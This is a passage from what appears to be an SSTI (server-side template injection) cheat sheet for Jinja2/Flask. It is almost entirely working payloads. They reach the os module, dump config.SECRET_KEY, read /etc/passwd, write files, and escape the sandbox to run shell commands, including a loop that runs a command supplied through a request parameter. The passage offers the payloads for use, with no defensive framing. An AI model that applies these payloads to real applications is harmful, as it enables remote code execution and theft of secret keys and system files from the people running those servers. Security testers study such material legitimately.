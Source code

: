   - Get `os`
    - `{{lipsum.__globals__.os}}`
    - `{{cycler.__init__.__globals__.os}}`
  - Load `os`
    - `{{config.from_object('os')}}`
  - `{{ config }}`
    - config.SECRET\_KEY
    - config.from\_pyfile(filename)
  - `{{ request }}`
    - request.args.name
    - request.cookies.name
    - request.headers.name
    - request.values.name
    - request.form.name
  - sandbox bypass

    ```python
    #All the below payloads works under python2
    --------------------------------------------

    #Starting from string or list
    {{ ''.__class__.__base__ }}

    #File operation
    {{ ''.__class__.__mro__[2].__subclasses__() }}
    {{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
    {{ ''.__class__.__mro__[2].__subclasses__()[40]('/var/www/app/a.txt').write('test') }}
    
    #RCE
    {{ ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('id').read() }}
    > uid=1000(ubuntu)gid=1000(ubuntu)...

    #All the below payloads works under python3
    --------------------------------------------
    {{ ().__class__.__base__.__subclasses__() }}
    {{ ().__class__.__base__.__subclasses__()[132] }} #<class 'os._wrap_close'>
    {{ ().__class__.__base__.__subclasses__()[132].__init__.__globals__ }}
    {{ ().__class__.__base__.__subclasses__()[132].__init__.__globals__['system']('id') }}

    #Find eval
    {% for c in [].__class__.__base__.__subclasses__(): %}
      {% if c.__name__ == 'catch_warnings': %}
        {% for b in c.__init__.__globals__.values(): %}
          {% if b.__class__ == {}.__class__ %}
            {% if 'eval' in b.keys(): %}
              {{ b['eval']('__import__("os").popen("id").read()') }}
            {% endif %}
          {% endif %}
        {% endfor %}
      {% endif %}
    {% endfor %}

    #Import
    {% for x in ().__class__.__base__.__subclasses__() %}
      {% if "warning" in x.__name__ %}
        {{x()._module.__builtins__["__import__"]("os").popen(request.args.payload).read()}}
      {% endif %}
    {% endfor %}
    ```

